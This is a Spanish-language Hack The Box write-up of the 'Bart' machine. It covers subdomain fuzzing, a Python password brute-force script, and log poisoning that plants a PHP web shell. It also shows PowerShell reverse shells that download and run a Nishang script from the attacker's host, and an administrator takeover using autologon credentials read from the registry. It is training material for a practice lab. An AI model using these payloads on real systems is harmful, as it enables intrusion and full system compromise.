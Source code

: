 ```yaml
---
layout: post
title: Bart
date: 2022-11-16
categories: ["HTB"]
thumbnail: "assets/images/Bart.png"
---
```


# Bart [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.81 -oG allPorts`
- `nmap -sCV -p80 10.10.10.81 -oN targeted`

`NMAP` nos dice que no ha seguido el redireccionamiento a `http://forum.bart.htb`.

### Inspección #1

Una vez haymos agregado `bart.htb` y `forum.bart.htb` al archivo `/etc/hosts` podemos ver la página sin problema. Nos encontramos en una página de negocios y tecnología revolucionaria, al inspeccionar el código fuente vemos un comentario añadiendo a otro desarrollador y nos dice que no puede añadirlo, ya que el `CSS` se rompe, por lo que lo deja ahí.

No hay nada interesante, pero si nos fijamos vemos que estamos en un subdominio, así
que con WFuzz vamos a enumerar subdominios para descubrir si hay más.

```
wfuzz -w top1million-2000.txt -H "Host: FUZZ.bart.htb" -t 100 10.10.10.81
```

Bien! Gracias a `WFuzz` hemos descubierto otro subdominio (`monitor.bart.htb`)! Nos dirigimos a la página para ver a lo que nos estamos enfrentando. Tenemos ante nosotros un panel `login` de `PHP Server Monitor`, no disponemos de ningún usuario válido y menos de una contraseña, pero vemos un botón para restaurar la contraseña, cuando lo clicamos no nos pide un correo, sino un nombre de usuario, por lo que vamos probando hasta que damos con el usuario `harvey`. En la página principal veíamos varias personas y en el código fuente a `Harvey`, por lo que podíamos intuir lo que había que hacer.

Ahora bien, seguimos sin tener ninguna contraseña, aunque para eso usaremos `CeWL`, una herramienta hecha en `Ruby` que nos permite crear `wordlists` customizadas, en este caso queremos que nos saque una `wordlist` de la página inicial.

- `cewl -w cewl-forum.txt -e -a http://forum.bart.htb`

Bien! Ya tenemos una `wordlist` customizada! Ahora hice un `script` en `Python` para probar todas las contraseñas de ese diccionario.

```
import requests

with open("cewl-forum.txt", "r") as wordlist:
    lines = wordlist.readlines()

    for passwd in lines:
        passwd = str(passwd).replace("\n", "").lower()
        cookies = {"PHPSESSID": "71793v7dsekogj5f3o0seo4341"}
        data = {
        "csrf": "999792d7ce[...]e511694927ca218",
        "user_name": "harvey",
        "user_password": f"{passwd}",
        "action": "login",
        }

        r = requests.post("http://monitor.bart.htb/", cookies=cookies, data=data)
        print(f"Harvey [ {passwd} ] | " + str(len(r.content)))
```

Como vemos en este `script` medimos la longitud de la respuesta, ya que si la contraseña es incorrecta siempre es la misma longitud, en cambio, cuando la longitud haya cambiado significará que la contraseña es correcta. Tras unos minutos hemos podido obtener la contrasña de Harvey (`harvey:potter`)!

### Inspección #2

Una vez estemos dentro del panel veremos varios apartados arriba, nos dirigimos a `Servers` y vemos otro subdominio, vamos a agregarlo al archivo `/etc/hosts`.

Una vez agregado entramos y vemos otro panel `login`, nos disponemos a `fuzzear` la página con `WFuzz` para encontrar archivos con extensión `PHP`.

```
wfuzz dir -u "http://internal-01.bart.htb/simple_chat/FUZZ.php" -w directory-list-2.3-medium.txt
```

Gracias a esto vemos un archivo llamado `register.php`, investigando un poco más sobre `SimpleChat` vemos que es un proyecto de código abierto y está disponible en `GitHub`, por lo que mirando el código vemos que necesitamos dos parámetros (`uname` y `passwd`) y que la petición se tramita mediante `POST`, por lo que nos podemos crear un usuario tramitando una petición con `CURL`.

```
data="uname=black&passwd=password"
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "$data"
```
Bien! Hemos creado un usuario! Ahora podemos acceder al panel para poder continuar. Es simplemente un chat, vemos mensajes pero no son relevantes, lo importante está en el código fuente, el cual está algo cambiado respecto al original, añadiendo así un pequeño `script`:

```
<div id="log_link">
  <script>
    function saveChat() {
      // Create a serialized object and send to log_chat.php.
      // Once done the XHR request, alert "Done"
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          alert(xhr.responseText);
        }
      }
      xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
      xhr.send(null);
      alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
```

Cuando el usuario clica el link Log ejecuta la función `SaveChat`, la cual hará saltar una ventana diciendo `Done` y luego otra diciendo `1`. Eso es debido a que la función `xhr.open` es llamada con el tercer parámetro `true`, que pone la llamada al modo `async`. El `script` dice `Done` y luego, una vez la petición regresa, la función `xhr.onreadystatechange` es llamada, alertando así del texto con la respuesta.

Si nos vamos manuealmente a la URL veremos un código de estado `1`, pero si cambiamos el nombre de usuario vemos `0`. Hay un parámetro llamado `filename`, el cual tiene como valor `log.txt`, entramos a `http://internal-01.bart.htb/log/log.txt` y vemos que existe, por lo que me hace pensar que se está creando un archivo el cual muestra nuestro `User-Agent`.

Con esto en cuenta nos acordamos del `Log Poisoning` o `Envenenamiento de Registros`, así que vamos a probarlo. Para ello cambiaré mi User-Agent a `<?php phpinfo(); ?>` para que cuando cargue nos interprete el `PHP` y podamos ver la información de `PHP`.

```
import requests

headers = {'User-Agent':'<?php phpinfo(); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
```

Una vez ejecutado el script nos dirigimos a `http://internal-01.bart.htb/log/phpinfo.php` y podremos ver que la inyección ha salido bien, por lo que ahora podemos crear otro archivo pero que tome el parámetro cmd para ejecutar el comando a nivel de sistema y representar el resultado, para ello cambiaremos el `User- Agent` a `<?php system($_REQUEST['cmd']); ?>`.

Bien! Ya podemos ejecutar comandos a nivel de sistema!

### Shell

Para obtener una Shell me descargué un archivo `PS1` llamado [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del
repositorio [`Nishang`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Una vez lo tenía de manera local le añadí al final una línea para poder entablarnos la conexión y me puse en escucha con `NC`.

- `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4444`
- `nc -nlvp 4444`

Bien! Ya estamos preparados para obtener la Shell! De nuevo usaremos `Python` para montarnos un servidor y mandar la petición de una manera más cómoda.

- `python3 -m http.server 80`

```
import requests

cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/Invoke-PowerShellTcp.ps1')"
r = requests.get('http://internal-01.bart.htb/log/black.php?cmd={}'.format(cmd))
```

Bien! Hemos recibido la conexión! Ya estamos en la máquina como `IUSR`!


### Subida de privilegios

Ahora que estamos en la máquina hay que intentar ser administradores, para ello comenzé con pruebas estándar para la subida de privilegios en `Windows`. Tras estar probando encontré credenciales por defecto en los registros de `autologon`.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```
DefaultDomainName REG_SZ DESKTOP-7I3S68E
DefaultUserName REG_SZ Administrator
DefaultPassword REG_SZ 3130438 f31186fbaf962f407711faddb
```

Para obtener la Shell como `Administrator` edité el `script` que habíamos utilizando anteriormente cambiándole el puerto a `443`, una vez hecho eso me puse en escucha, me monté un servidor en `Python` y pasé a hacer lo siguiente:

```
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object
Net.WebClient).downloadString('http://10.10.14.15/Shell.ps1') } -Credential $cred -Computer localhost
```

Enhorabuena! Ya estamos como `bart\administrator` en la máquina! Vaya desafío!
